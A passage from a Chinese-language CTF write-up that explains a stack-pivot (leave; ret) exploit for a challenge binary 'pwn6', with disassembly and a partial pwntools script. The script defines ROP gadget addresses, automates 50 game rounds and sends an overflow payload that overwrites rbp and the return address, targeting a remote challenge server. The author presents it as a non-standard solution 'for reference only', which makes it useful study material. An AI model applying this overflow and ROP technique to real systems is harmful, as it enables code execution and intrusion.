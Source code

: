 ##### &emsp;&emsp;&emsp;然后是返回地址，理论上可以选```0x4019CE```及以下的任意位置，但是上如果直接跳转到上面```myread()```的位置会SEGV，猜测是栈没布置好，访问到非法内存了，而跳转到```0x4019CE```就没有问题，当然这意味着要再来50组游戏，虽然这次可以随便玩。<br>
```sh
.text:00000000004019C7                 mov     [rbp+var_4], 30
.text:00000000004019CE                 mov     [rbp+var_10], 50
.text:00000000004019D5                 lea     rax, asc_474107 ; "-------------------------"
.text:00000000004019DC                 mov     rdi, rax
.text:00000000004019DF                 call    puts
.text:00000000004019E4                 mov     [rbp+var_8], 0
.text:00000000004019EB                 jmp     loc_401B6A
```
##### &emsp;&emsp;&emsp;由我们控制的```myread()```结束后，程序将```leave ret```，这也是这种恰好只溢出返回地址的题目在栈迁移时关键的一点，既不将返回地址覆盖为```leave ret```，而是想办法要再次利用 ```read()``` ，往```fake_rbp``` 上写一些东西，然后用函数末尾自带的```leave ret```，完成向目标位置的栈迁移。<br>&emsp;&emsp;&emsp;对于这题而言，```leave ret```的流程是将```rsp```骗到我们输入地址```+0x40```的位置，```pop rbp```该位置，然后```ret```上一个字长位置。这意味着需要在输入时设置```0x40 + 0x8```的没啥用数据，然后才是ROPchain。<br>
##### &emsp;&emsp;&emsp;由于不是标解，所以把这种exp放上来，仅供参考
```python
from pwn import *

context.log_level = "debug"
# io = process("./pwn6")
elf = ELF("./pwn6")
io = remote("152.136.11.155", 31514)
syscall = 0x401291
bin_sh = 0x474010
rax_ret = 0x41dd07
rdi_ret = 0x402368
rsi_ret = 0x409560
rdx_rcx_ret = 0x401855
main = 0x4019ce
myread = 0x401B7b
data_2 = 0x4A0698 + 4 # 0x4a069c
ret = 0x401016

for i in range(50):
    io.recvuntil(b'-------------------------\n')
    target = io.recvline()
    print(target)
    print(io.recvuntil(b'?'))
    if target.find(b'Clomp') != -1:
        io.sendline(b'O')
    else:
        io.sendline(b'C')

io.recvuntil(b'word!\n') # 80 0x50
payload = b'a'*0x40 + p64(data_2) + p64(main) # change rbp
io.send(payload)
sleep(0.1)

for i in range(50):
    io.recvuntil(b'-------------------------\n')
    target = io.recvline()
    print(target)
    print(io.recvuntil(b'?'))
    if target.find(b'Clomp') != -1:
        io.sendline(b'O')
    else:
        io.sendline(b'C')

```